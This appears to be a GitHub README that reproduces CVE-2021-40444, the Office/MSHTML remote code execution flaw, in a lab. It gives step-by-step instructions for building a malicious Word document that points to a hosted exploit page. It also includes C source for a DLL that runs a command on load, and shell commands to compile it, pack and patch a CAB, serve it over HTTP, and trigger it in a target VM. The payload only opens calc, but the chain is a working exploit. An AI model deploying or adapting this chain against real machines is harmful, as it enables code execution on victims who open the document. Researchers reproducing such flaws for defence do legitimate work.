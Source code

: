 # CVE-2021-40444

Reproduce steps for CVE-2021-40444

These reproduction steps are based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file).

## Generating docx

Go to `maldoc/word/_rels/document.xml.rels` and edit the two ocurrences for `http://<HOST>` with the URL to the exploit.html Eg.: `http://127.0.0.1/exploit.html` file.

Generate docx:

`cd maldoc/ ; zip -r maldoc.docx *`

## Generating malicious cab

```
#include <windows.h>

void exec(void) {
	system("C:\\Windows\\System32\\calc.exe");
	return;
}

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason, 
    LPVOID lpReserved )
{
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
           exec(); 
           break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Exec:

`i686-w64-mingw32-gcc -shared calc.c -o calc.dll`

Generate cab (install lcab `sudo apt-get install lcab`)

`cp calc.dll championship.inf ; mkdir gen/ ; cd gen/ ; lcab '../championship.inf' out.cab`

Copy out.cab into `www/` directory, modify exploit.html to point to `http://127.0.0.1/out.cab`
  
Execute Python script: `patch_cab.py`
  
Finally, setup server:
  
`cd www/ ; sudo python3 -m http.server 80`

# End

Execute now maldoc.docx in target VM

If not working, make sure there is a `championship.inf` file at `C:\Users\<user>\AppData\Temp\`

If file is present but DLL did not get executed, make sure you are opening docx from a folder reached from by exploit.html, like Documents, Desktop, or Downloads.

# More

To automatically resolve the array obfuscation on HTML file use `deobfuscate.py` (already has hardcoded the mutated array)

Anyway, there is already a deobfuscated version: `deob.html`
